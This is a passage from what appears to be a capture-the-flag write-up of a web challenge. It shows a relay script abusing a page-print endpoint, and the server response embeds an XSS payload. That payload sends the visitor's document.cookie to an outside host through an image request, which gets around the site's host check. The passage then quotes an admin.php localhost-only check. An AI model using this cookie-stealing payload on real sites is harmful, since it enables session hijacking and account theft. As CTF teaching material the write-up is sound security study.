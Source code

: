 ```python
    print x.text
```

```
$ python relay.py "http://10.13.37.13.f0rki.at/xss.html"
http://10.13.37.13/?page=print&url=aHR0cDovLzEwLjEzLjM3LjEzLmYwcmtpLmF0L3hzcy5odG1s

<!DOCTYPE html>
<html lang="en">
  <head>
[...]

    <div class="container">

      <div class="starter-template">
        <h1></h1>
        <p class="lead"><html>
<script>
document.write("<img src=\"http://f0rki.at/" + document.cookie + "\" />");
</script>
</html>
</p>
      </div>

    </div><!-- /.container -->


    <!-- Bootstrap core JavaScript
    ================================================== -->
    <!-- Placed at the end of the document so the pages load faster -->
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
    <script src="http://10.13.37.13/public/bootstrap.min.js"></script>
  </body>
</html>
```

So we can see that the server included our xss payload. We submitted this URL
for checking and this bypasses the proper host checking, because of course this
is a URL on the same site. After a couple of seconds we could see that some
client connects to our webserver, fetches the payload and then we can check the
error logs for the cookie. The cookie doesn't buy us much because it's not used
anywhere. We will need a different XSS payload.


### The admin.php 127.0.0.1 check

Unfortunately the `admin.php` script had a rather nasty check at the top:

```php
//lazy admin approach to "authenticate"
if($_SERVER['REMOTE_ADDR'] !== '127.0.0.1') {
    die('You are not allowed.');
}
```

